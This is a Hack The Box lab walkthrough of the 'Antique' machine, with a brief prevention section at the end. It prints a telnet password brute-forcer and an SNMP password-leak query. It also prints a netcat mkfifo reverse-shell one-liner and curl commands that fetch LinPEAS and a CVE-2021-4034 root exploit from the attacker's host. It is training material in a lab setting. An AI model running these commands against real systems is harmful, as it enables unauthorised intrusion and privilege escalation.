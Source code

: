 ```yaml
---
layout: post
title: Hack The Box Walkthrough - Antique
date: 2022-04-17
type: post
tags:
- Walkthrough
- Hacking
- HackTheBox
- Easy
- Machine
permalink: /2022/04/HTB/Antique
img: 2022/04/Antique/Antique.png
---
```


This is a very simple machine to own. It uses unpatched software with known vulnerability issues.

* Room: Antique
* Difficulty: Easy
* URL: [https://app.hackthebox.com/machines/Antique](https://app.hackthebox.com/machines/Antique)
* Author: [MrR3boot](https://app.hackthebox.com/users/13531)

## Enumeration

I started the box by adding the IP to my host file, then enumerating opened ports with RustScan.

```bash
$ cat /etc/hosts
...
10.129.130.116            target target.htb

$ rustscan -a target -- -A | tee rust.txt

.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/ehogue/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'.
Open 10.129.130.116:23
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
```

Only port 23 (telnet) is opened. I tried connecting to it.

```bash
$ telnet target
Trying 10.129.130.116...
Connected to target.
Escape character is '^]'.

HP JetDirect

Password: admin
Invalid password
Connection closed by foreign host.
```

It looked like the console for a printer. I tried a few simple passwords (admin, root, ...) but none of them worked. I looked online for the default password for HP JetDirect and did not find anything.

I wrote a small script to try to brute force the password.

```python
from pwn import *
import sys


def try_password(password):
    if len(password) < 1:
        return

    print(f'Trying password {password}')
    conn = remote('target.htb', 23)
    conn.recvuntil(b"HP JetDirect")
    conn.recv()
    conn.send(b"\n")

    conn.recvuntil(b"Password: ")
    conn.send(bytes(password, 'utf-8'))
    response = str(conn.recv())

    conn.close()

    if 'Invalid' not in response:
        print(response)
        print(password)
        exit()

if len(sys.argv) != 2:
    print('Usage python brute.py PASSWORD_FILE')
    exit()


file_name = sys.argv[1]
file = open(file_name, "r")

for line in file:
    line = line.strip()
    try_password(line)
```

I launched the sript with the rockyout.txt password list.

While it was running, I looked for know vulnerabilities in HP JetDirect. I found a [post](http://www.irongeek.com/i.php?page=security/networkprinterhacking) that explained how to get the password using a SNMP vulnerability. I tried it on the target.

```bash
$ snmpget -v 1 -c public target.htb .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

I used [CyberChef's From Hex recipe](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')) to decode the hexadecimal values listed and it gave me a password.


```bash
$ telnet target.htb
Trying 10.129.130.116...
Connected to target.
Escape character is '^]'.

HP JetDirect

Password: REDACTED

Please type "?" for HELP
```

The password worked. I stoped my script from trying to brute force the password. It would have never found it as the password is not in rockyou. 

I looked at the commands I could run. There was an `exec` command that allowed me to run arbitrary commands on the server. I used it to get the first flag.

```bash
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session

> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)

> exec ls -la
total 16
drwxr-xr-x 2 lp   lp   4096 Sep 27  2021 .
drwxr-xr-x 6 root root 4096 May 14  2021 ..
lrwxrwxrwx 1 lp   lp      9 May 14  2021 .bash_history -> /dev/null
-rwxr-xr-x 1 lp   lp   1959 Sep 27  2021 telnet.py
-rw------- 2 lp   lp     33 Apr 17 12:54 user.txt

> exec cat user.txt
REDACTED
```

## Privilege Escalation

The next step was to get root on the box. But first I needed a shell on the machine. I stated a netcat listener on my machine and used the `exec` command to opend a reverse shell.

```bash
exec mkfifo /tmp/kirxhbg; nc 10.10.14.50 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg
```

```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.130.116 45366
whoami
lp
```

From there I looked around the machine for some time. I could not find anything to exploit. So I tried using [LinPEAS](https://github.com/carlospolop/PEASS-ng). I copied it to a folder on my machine and started a web server.

```bash
$ sudo python -m http.server 80
```

Then I downloaded it on the server and ran it. 

```bash
lp@antique:/tmp$ curl 10.10.14.50/linpeas.sh -o linpeas.sh

lp@antique:/tmp$ sh linpeas.sh | tee res.txt
```
![LinPEAS](/assets/images/2022/04/Antique/LinPEAS.png "LinPEAS")

The first thing LinPEAS found was that the machine was vulnerable to the [PolKit](https://nvd.nist.gov/vuln/detail/cve-2021-4034) exploit. This vulnerability allow using pkexec to run arbitrary code as root.

```bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
Sudo version 1.8.31

Vulnerable to CVE-2021-4034
```

I found a [Python script](https://github.com/joeammond/CVE-2021-4034) that uses this vulnerability to get a shell as root. I downloaded the script and ran it.

```bash
lp@antique:/tmp$ curl 10.10.14.50/exploit.py -o exploit.py
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3262  100  3262    0     0  50968      0 --:--:-- --:--:-- --:--:-- 50968

lp@antique:/tmp$ python3 exploit.py
[+] Creating shared library for exploit code.
[+] Calling execve()

# whoami
root

# cat /root/root.txt
REDACTED
```

## Prevention

Fixing this machine to prevent exploitation should be fairly simple. First, the port for the printer management software should probably not be exposed. This application allow running any command on the server. If it's really needed, access to it should be restricted. 

But more important, the machine should be updated. Both vulnerabilities have alvailable fixes. The PolKit vulnerability is a big one, and keeping a vulnerable version is looking for trouble. Any machine that still uses a vulnerable version should be patched quickly.
